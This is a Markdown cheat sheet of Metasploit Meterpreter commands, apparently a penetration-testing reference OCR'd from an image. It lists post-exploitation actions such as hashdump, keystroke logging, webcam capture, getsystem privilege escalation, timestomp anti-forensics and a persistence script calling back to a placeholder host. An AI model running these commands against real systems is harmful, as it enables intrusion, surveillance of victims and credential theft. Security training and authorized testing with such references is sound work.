 # Metasploit Meterpreter

## Basic Commands

- **help**: Show available meterpreter commands
- **sysinfo**: Display system information (OS, hostname, architecture)
- **ps**: List running processes (PID, name, user)
- **kill** : Terminate a process by PID
- **migrate** : Move meterpreter to another process (often a more stable one)
- **rev2self**: Revert the current process to its original user context

## File System Commands

- **ls**: List files in the current directory
- **cd** : Change the current directory to `<path>`
- **pwd**: Show the current directory path
- **cat** : Display the contents of `<file>`
- **download** : Download `<file>` from the target
- **upload** : Upload `<file>` from local to the target

## Network Commands

- **ipconfig**: Show network adapter configuration
- **route**: View or modify the routing table
- **netstat**: View active network connections
- **portfwd**: Forward a local port to a remote service (`portfwd add -l <localport> -p <remoteport> -r <targetIP>`)
- **getsockname**: Display the socket name for the active connection

## User Management Commands

- **getuid**: Show the current user ID
- **ps**: List running processes with user ownership
- **getprivs**: List the current user’s privileges
- **getsystem**: Attempt privilege escalation to SYSTEM

## Persistence Commands

- **persistence**: Enable persistent meterpreter access on the target
- **run** : Execute a script (e.g., `run persistence -U -i <interval> -p <port> -r <host>`)

## Shell Commands

- **shell**: Open a command shell on the target
- **execute -f** : Run a command on the target
- **background**: Background the current meterpreter session
- **Ctrl+Z**: Suspend/Background the current session in console mode

## Other Commands

- **use** : Load a meterpreter extension
- **run** : Execute a script or extension command
- **keyscan_start**: Start capturing keystrokes on the target
- **keyscan_dump**: Display captured keystrokes
- **screenshot**: Take a screenshot of the target’s desktop
- **webcam_list**: List available webcams on the target
- **webcam_snap**: Capture a snapshot from a webcam
- **hashdump**: Dump local password hashes on the target
- **timestomp**: Alter file timestamps on the target to evade detection
